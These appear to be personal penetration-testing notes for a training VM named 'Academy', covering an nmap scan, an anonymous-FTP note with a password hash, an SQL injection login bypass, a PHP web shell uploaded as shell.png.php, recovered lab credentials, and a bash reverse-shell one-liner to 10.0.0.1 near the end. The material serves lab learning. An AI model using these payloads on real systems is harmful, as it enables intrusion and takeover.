 # 11.2 Academy
## Scanning
### Nmap
```bash
nmap -T4 -sV -sC -p- -oA nmap/scan 192.168.17.7
Nmap scan report for 192.168.17.7
Host is up (0.00087s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30 03:13 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.17.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:6B:E8:DA (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP enumeration
![[Pasted image 20210831141015.png]]

Contents of note.txt:
```txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.

I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.

Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

### Dirbuster 
![[Pasted image 
20210831153751.png]]

### Nikto scan
![[Pasted image 20210831154603.png]]

### Visiting the website
1. Default webpage, information disclosure.

![[Pasted image 20210831153838.png]]

2. Logging into `192.168.17.7/academy/index.php` with 10201321:student, after cracking hash using hashes.org.

3. Logging into  with `1' or 1=1 -- -`:EMPTY grants access to admin page. 

192.168.17.8

![[Pasted image 20210904151412.png]]

admin:admin

Uploaded shell.png.php 

grimmie:My_V3ryS3cur3_P4ss

/home/grimmie/backup.sh

![[Pasted image 20210904153704.png]]

![[Pasted image 20210904153718.png]]

![[Pasted image 20210904153935.png]]

Use tool pspy:
https://github.com/DominicBreuker/pspy

bash one liner:

bash -i >& /dev/tcp/10.0.0.1/4242 0>&1


![[Pasted image 20210904164633.png]]

